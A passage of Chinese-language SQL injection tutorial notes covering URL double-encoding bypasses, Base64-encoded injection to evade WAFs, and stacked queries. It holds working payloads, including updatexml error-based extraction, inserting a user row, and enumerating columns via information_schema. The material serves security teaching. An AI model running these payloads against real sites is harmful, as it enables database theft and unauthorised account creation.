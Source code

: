 ```
| 用户输入  | php解析 | addslashes()编码 | urldecode()解析 | 最终输入 | 结果       |
| --------- | ------- | ---------------- | --------------- | -------- | ---------- |
| id=1%27   | id=1'   | id=1`\'`         | （没有该函数）  | id=1`\'` | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | （没有该函数）  | id=1%27  | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | id=1'           | id=1'    | 注入成功！ |



#### (4). Base64注入

##### a. 概述

* Base64是基于64个可打印字符来表示二进制数据的方法，可打印字符包括**A-Z，a-z，0-9，+，/**
* Base64把**不可见字符全部编码为可见字符**，**大大降低传输时出现错误的可能性**

##### b. 原理

* 针对传递的参数被base64**加密后的注入点进行注入**，常用于**绕过一些WAF**检测

##### c. 注入方法

1. 先将原本参数**解密**，再结合**之前注入手法**进行设计
2. 语句设计完成后，**重新加密**作为参数进行注入

##### d. 实例

```
1.原参数
	YWRtaW4n
2.解密后进行语句设计
	admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe
3.base64编码后进行注入
	YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd2U=
```

#### (5). 堆叠注入

##### a. 概述

* 在**分号**结束一个sql语句后，**继续构造**下一条语句，**一起执行**
* **堆叠查询**可以执行**任意语句**，**联合查询**的语句**类型有限**，通常是**查询语句**

##### b. 原理

* 将**许多语句**通过**分号**叠加在**一起执行**
* **mysqli_multi_query支持**，**mysql_query不支持**
* 可能受到**API**或**数据库引擎不支持**的限制

##### c. 条件

* web系统通常**只返回一个查询结果**，故在读取数据时使用**联合注入**
* 使用堆叠注入前，须知道数据库的**表名、列名等**

##### d. 实例

```
//插入数据
1';insert into users(username,password) value('icq','icq') -- qwe
//获取字段名
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),database() -- qwe
//获取字段内数据